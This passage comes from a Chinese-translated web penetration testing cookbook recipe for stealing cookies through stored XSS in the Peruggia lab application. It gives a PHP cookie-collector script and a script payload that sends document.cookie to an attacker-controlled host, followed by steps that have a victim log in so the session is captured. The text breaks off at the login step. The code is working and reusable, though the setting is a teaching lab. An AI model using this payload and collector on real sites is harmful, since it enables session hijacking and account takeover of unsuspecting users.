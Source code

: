 ```php
<?php 
$fp = fopen('/tmp/cookie_data.txt', 'a'); 
fwrite($fp, $_GET["cookie"] . "\n"); 
fclose($fp); 
?>
```

这个 PHP 脚本会收集由 XSS 发送的所有 cookie。为了确保它能工作，访问` http://127.0.0.1/savecookie.php?cookie=test`，并且检查`/tmp/cookie_data.txt`的内容：

```
cat /tmp/cookie_data.txt 
```

如果它显式了`test`单词，就能生效。下一步就是了解 Kali 主机在 VirtualBox 主机网络中的地址，执行：

```
ifconfig
```

对于这本书，Kali 主机 的`vboxnet0`接口 IP 为 192.168.56.1 。

### 操作步骤

1.  我们在这个秘籍中会使用两个不同的浏览器。OWASP Mantra 是攻击者的浏览器，Iceweasel 是受害者的浏览器。在攻击者的浏览器中，访问`http://192.168.56.102/peruggia/`。

2.  让我们给页面的图片添加一条评论，点击`Comment on this picture`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-6-1.jpg)

3.  在文本框中输入下列代码：

    ```html
    <script> 
        var xmlHttp = new XMLHttpRequest(); 
        xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true ); 
        xmlHttp.send( null ); 
    </script>
    ```
    
4.  点击`Post`。

5.  页面会执行我们的脚本，即使我们看不见任何改动。检查 Cookie 文件的内容来查看结果。在我们的 Kali 主机上，打开终端并执行：

    ```
    cat /tmp/cookie_data.txt 
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-6-2.jpg)
    
    文件中会出现新的条目。
    
6.  现在，在受害者浏览器中访问` http://192.168.56.102/peruggia/`。

7.  点击`Login`。

8.  输入`admin`作为用户名和密码，并点击`Login`。
